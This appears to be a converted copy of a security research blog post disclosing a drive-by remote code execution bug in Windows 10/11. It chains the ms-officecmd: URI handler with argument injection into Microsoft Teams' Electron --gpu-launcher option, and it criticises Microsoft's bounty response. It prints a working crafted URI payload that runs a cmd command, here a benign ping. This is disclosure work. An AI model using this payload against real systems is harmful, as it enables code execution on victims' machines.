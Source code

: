> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [positive.security](https://positive.security/blog/ms-officecmd-rce)

> Chaining a misconfiguration in IE11/Edge Legacy with an argument injection in a Windows 10/11 default......

TL;DR
-----

*   We discovered a drive-by code execution vulnerability on Windows 10 via IE11/Edge Legacy and MS Teams, triggered by an argument injection in the Windows 10/11 default handler for `ms-officecmd:` URIs
*   Exploitation through other browsers requires the victim to accept an inconspicuous confirmation dialog. Alternatively, a malicious URI could be delivered via a [desktop application performing unsafe URL handling](https://positive.security/blog/url-open-rce)
*   Microsoft Bug Bounty Program's (MSRC) response was poor: Initially, they misjudged and dismissed the issue entirely. After our appeal, the issue was classified as"Critical, RCE", but only 10% of the bounty advertised for its classification was awarded ($5k vs $50k). The patch they came up with after 5 months failed to properly address the underlying argument injection (which is currently also still present on Windows 11)
*   Our research journey was straightforward: We decided to find a code execution vulnerability in a default Windows 10 URI handler, and succeeded within two weeks. Considering the amount of URI handlers Windows ships with, it seems very likely that others are vulnerable too

Exploitation/Demo
-----------------

Code execution is triggered by a malicious website which performs a Javascript redirect to a crafted `ms-officecmd:` URI (a scheme used by the Microsoft Office UWP app to launch other Office desktop applications). We exploit an argument injection vulnerability in the URI handler and bypass a security measure in Electron to inject an arbitrary OS command via the `--gpu-launcher` parameter of the Microsoft Teams Electron app.

 <video src="" control></video>

 Drive-by RCE on Windows 10 via MS Edge

This is the crafted `ms-officecmd:` URI used in the video above (JSON indented for readability):

```
ms-officecmd:{
   "LocalProviders.LaunchOfficeAppForResult": {
       "details": {
           "appId": 5,
           "name": "irrelevant",
           "discovered": {
               "command": "irrelevant"
           }
       },
       "filename": "a:/b/ --disable-gpu-sandbox --gpu-launcher=\"C:\\Windows\\System32\\cmd /c ping 2016843009 && \""
   }
}

```

